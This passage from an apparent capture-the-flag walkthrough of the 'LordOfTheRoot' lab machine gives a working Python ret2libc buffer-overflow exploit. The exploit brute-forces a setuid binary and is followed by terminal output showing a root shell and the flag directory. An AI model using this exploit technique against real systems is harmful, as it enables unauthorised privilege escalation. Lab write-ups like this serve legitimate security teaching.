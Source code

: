 ```python
from subprocess import call
import struct,os

libc_address=0xb7578000

system=0x00040190
exit=0x000331e0
shell=0x00160a24

system_addr=struct.pack("<I", libc_address + system)
exit_addr=struct.pack("<I", libc_address + exit)
shell_addr=struct.pack("<I", libc_address + shell)

buf="A"*171
buf+=system_addr
buf+=exit_addr
buf+=shell_addr

i,n=1,1

while(n < 4):
    x=os.path.getsize("/SECRET/door{}/file".format(n))
    if (x == 5150):
        print("[-] Door {} Open".format(n))
        while (i < 500):
            print(" Attempt {}".format(i))
            path="/SECRET/door{}/file".format(n)
            ret= call([path, buf])
            i+=1
    n+=1
    i=1

    if n==4:
        n=1
```

As we see, with few attempts was possible to exploit the binary and get a root shell.

```bash
smeagol@LordOfTheRoot:~$ python exp.py
[-] Door 1 Open   
 ...
 Attempt 70
# id
uid=1000(smeagol) gid=1000(smeagol) euid=0(root) groups=0(root),1000(smeagol)
# python3 -c 'import os; os.setuid(0); os.setgid(0); os.system("/bin/bash")'
root@LordOfTheRoot:/dev/shm# cd /root/
root@LordOfTheRoot:/root# ls
buf  buf.c  Flag.txt  other  other.c  switcher.py
```

In the root directory the switcher.py script randomly copy the buf file through a cron job that runs every three minutes.
